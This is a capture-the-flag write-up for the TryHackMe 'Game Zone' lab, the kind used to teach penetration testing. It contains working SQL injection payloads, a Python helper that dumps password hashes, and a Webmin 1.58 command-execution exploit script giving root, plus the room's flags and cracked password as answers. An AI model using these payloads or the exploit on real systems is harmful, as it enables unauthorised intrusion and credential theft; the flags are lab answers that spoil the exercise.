# Game Zone (THM)

- https://tryhackme.com/room/gamezone
- March 22, 2023
- easy

---

## Enumeration

### Nmap

```
PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    syn-ack     Apache httpd 2.4.18 ((Ubuntu))
```
### HTTP

- home page



- directory brute forcing with ffuf - nothing special found
- there is a login form in home page
- cannot register
- in login page, enter with some common credentials

```
admin:admin
admin:password
guest:guest
# basic sql injection
' OR 1=1-- -:sdff
```
- sql injection works and redirect to portal.php page
- portal.php has one search functionality and it is also vulnerable to sql injection
- test with `'`



- MySQL server
- check how many columns

```
' order by 1-- -
' order by 3-- -
' order by 4-- -
```
- 4 return error and there are 3 columns
- check which columns are reflected

```
' union select 'aaaa','bbbb','cccc'-- -
```
- second and third columns are reflected
- wrote python script like this to see conviently

```python
import requests
import sys
from bs4 import BeautifulSoup

url = "http://10.10.41.206/portal.php"
headers = {"Cookie": "PHPSESSID=k1tk23vhn5qmc42qeh95o8pr83"}
data = {"searchitem": sys.argv[1]}

r = requests.post(url, data=data, headers=headers)
soup = BeautifulSoup(r.text, features="lxml")
for td in soup.find_all('td'):
    print(td.text)
```
- replace your PHPSESSID and url and can execute like this
- `python exploit.py 'injection here'`

- list tables

```sh
 python exploit.py "' union select null,null,table_name from information_schema.tables;-- -"
```
- found users table and check column names

```sh
python exploit.py "' union select null,column_name,data_type from information_schema.columns where table_name='users';-- -" 
```
```
username
text
pwd
text
USER
char
CURRENT_CONNECTIONS
bigint
TOTAL_CONNECTIONS
bigint
```
- there are username and pwd columns

```sh
python exploit.py "' union select null,username,pwd from users;-- -" 
```
- get username and pwd which is hashed

```
agent47
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```
- use crackstation.net and get password



- there is ssh service opened and enter with this credentials


## User Access

- enter ssh and get agent47 user access
- cannot run sudo 

```sh
agent47@gamezone:/tmp$ id
uid=1000(agent47) gid=1000(agent47) groups=1000(agent47),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
- user has lxd access
- try `lxd` exploit but not success
- There is an internal service at port 10000


- it is a web service



- use ssh port tunneling to access from our local browser
- from local machine

```sh
ssh -L 10000:127.0.0.1:10000 agent47@$IP
```
- we can access at `http://localhost:10000`



- try to enter with agent47 and can enter



- version of webmin is 1.58 and it has remote command execution vulnerability
- wrote a simple python code like this

```python
import requests
import sys
from urllib.parse import quote

headers = {
    # use your cookie here
    "Cookie": "testing=1; sid=24654e7126dc325d706444ce32d77a48"
}
url = "http://localhost:10000/file/show.cgi/bin/lklskjdfsdf|"
# after /bin/ -> can use any random character
cmd = sys.argv[1]

r = requests.get(url + quote(cmd) + "|", headers=headers)
print(r.text)
```

## Root Access

- can execute as root user





- if you want shell, use with reverse shell payload and netcat

## Questions

1. What is the name of the large cartoon avatar holding a sniper on the forum?



2. When you've logged in, what page do you get redirected to?

- portal.php

3. In the users table, what is the hashed password?

- ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

4. What was the username associated with the hashed password?

- agent47

5. What was the other table name?

- post

6. What is the de-hashed password?

- videogamer124

7. What is the user flag?

- 649ac17b1480ac13ef1e4fa579dac95c

8. How many TCP sockets are running?

- 5


- this screenshot is wrong as I think I have connected my local machine to get linpeas from remote machine

9. What is the name of the exposed CMS?

- webmin

10. What is the CMS version?

- 1.580

11. What is the root flag?

- a4b945830144bdd71908d12d902adeee
